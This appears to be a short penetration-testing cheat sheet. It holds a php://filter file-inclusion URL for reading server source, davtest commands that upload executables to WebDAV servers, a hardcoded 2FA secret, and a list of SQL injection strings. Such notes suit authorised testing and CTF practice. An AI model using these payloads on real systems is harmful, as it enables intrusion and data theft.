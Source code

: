--------------------------------------------------------------------------

## Bypassing File Upload Restrictions
https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/

--------------------------------------------------------------------------

## View PHP source

- php://filter/convert.base64-encode/resource=<php_file_path>
  Ex:
	
      http://192.168.152.58/image.php?img=php://filter/convert.base64-encode/resource=/var/www/html/image.php

--------------------------------------------------------------------------

## WebDAV

- davtest	

    Tests WebDAV enabled servers by uploading test executable files.

      davtest -url http://$TARGET_IP 

    - (Optional) Uploads files which allow for command execution or other actions directly on the target.

- cadaver

    A command-line WebDAV client for Unix.
	
--------------------------------------------------------------------------
	
## Google Authenicator

Generate 2fa token with https://totp.danhersam.com/ using secret key ND4LKCSFMUQISO6CBZQATLDP

Reference: https://github.com/itemir/apache_2fa

--------------------------------------------------------------------------

## SQL-Injection

https://xapax.gitbooks.io/security/content/sql-injections.html

This is the most classic, standard first test:

    ' or '1'='1
    " or "1"="1

Then you have:

    -'
    ' '
    '&'
    '^'
    '*'
    ' or ''-'
    ' or '' '
    ' or ''&'
    ' or ''^'
    ' or ''*'
    "-"
    " "
    "&"
    "^"